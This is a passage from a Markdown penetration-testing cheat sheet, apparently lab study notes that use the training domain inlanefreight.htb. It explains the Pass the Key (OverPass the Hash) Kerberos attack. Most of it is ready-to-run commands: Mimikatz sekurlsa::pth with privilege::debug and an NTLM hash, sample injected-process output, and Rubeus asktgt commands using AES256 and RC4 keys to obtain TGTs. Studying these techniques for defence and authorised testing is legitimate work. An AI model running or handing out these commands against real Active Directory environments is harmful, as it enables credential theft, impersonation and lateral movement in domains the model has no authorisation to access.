**Key Types Explained:**
- **aes256_hmac** - Modern AES-256 encryption (preferred)
- **rc4_hmac_nt** - Legacy RC4/NTLM hash
- **rc4_hmac_old** - Older RC4 implementation

---

## 🔄 Pass the Key (OverPass the Hash)

### Concept
**Pass the Key** (aka OverPass the Hash) converts a user's hash/key into a full **Ticket Granting Ticket (TGT)**. This technique bridges hash-based and ticket-based attacks.

### 1. Mimikatz OverPass the Hash

#### Using NTLM Hash
```cmd
mimikatz.exe
privilege::debug

# Create new process with injected TGT
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f

# Results:
# - New cmd.exe window opens
# - TGT injected into new process
# - Can request any service tickets for user
```

#### Process Details
```cmd
user    : plaintext
domain  : inlanefreight.htb  
program : cmd.exe
NTLM    : 3f74aa8f08f712f09cd5177b5c1ce50f
PID     : 1128
LUID    : 0 ; 3414364 (00000000:0034195c)
```

### 2. Rubeus OverPass the Hash

#### Using AES256 Key (Preferred)
```cmd
# Request TGT using AES256 key
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

# Using RC4/NTLM hash
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /nowrap
```
